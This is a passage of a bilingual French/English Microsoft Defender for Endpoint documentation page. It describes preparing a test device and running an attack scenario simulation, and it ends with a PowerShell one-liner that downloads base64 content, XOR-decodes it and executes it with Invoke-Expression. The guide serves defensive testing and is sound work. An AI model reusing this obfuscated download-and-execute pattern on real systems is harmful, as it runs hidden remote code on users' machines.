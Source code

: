    1. <span data-ttu-id="b5b6d-144">[Activer l Windows Defender Antivirus .](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features)</span><span class="sxs-lookup"><span data-stu-id="b5b6d-144">[Turn on Windows Defender Antivirus](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span></span> <span data-ttu-id="b5b6d-145">Si vous avez des difficultés à activer Windows Defender antivirus, consultez cette [rubrique de résolution des problèmes.](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)</span><span class="sxs-lookup"><span data-stu-id="b5b6d-145">If you are having trouble enabling Windows Defender Antivirus, see this [troubleshooting topic](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span></span>

   1. <span data-ttu-id="b5b6d-146">Vérifiez que le périphérique de test [est intégré à Microsoft Defender pour le point de terminaison).](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints)</span><span class="sxs-lookup"><span data-stu-id="b5b6d-146">Verify that the test device is [onboarded to Microsoft Defender for Endpoint)](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span></span>

<span data-ttu-id="b5b6d-147">Si vous utilisez un client existant et implémentez des groupes d'appareils, créez un groupe d'appareils dédié pour le périphérique de test et faites-le avancer au niveau supérieur de l'expérience de configuration.</span><span class="sxs-lookup"><span data-stu-id="b5b6d-147">If you use an existing tenant and implement device groups, create a dedicated device group for the test device and push it to top level in configuration UX.</span></span>

## <a name="run-the-attack-scenario-simulation"></a><span data-ttu-id="b5b6d-148">Exécuter la simulation de scénario d'attaque</span><span class="sxs-lookup"><span data-stu-id="b5b6d-148">Run the attack scenario simulation</span></span>

<span data-ttu-id="b5b6d-149">Pour exécuter la simulation de scénario d'attaque :</span><span class="sxs-lookup"><span data-stu-id="b5b6d-149">To run the attack scenario simulation:</span></span>

1. <span data-ttu-id="b5b6d-150">Connectez-vous au périphérique de test avec le compte d'utilisateur test.</span><span class="sxs-lookup"><span data-stu-id="b5b6d-150">Log in to the test device with the test user account.</span></span>

2. <span data-ttu-id="b5b6d-151">Ouvrez une Windows PowerShell sur le périphérique de test.</span><span class="sxs-lookup"><span data-stu-id="b5b6d-151">Open a Windows PowerShell window on the test device.</span></span>

3. <span data-ttu-id="b5b6d-152">Copiez le script de simulation suivant :</span><span class="sxs-lookup"><span data-stu-id="b5b6d-152">Copy the following simulation script:</span></span>

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```
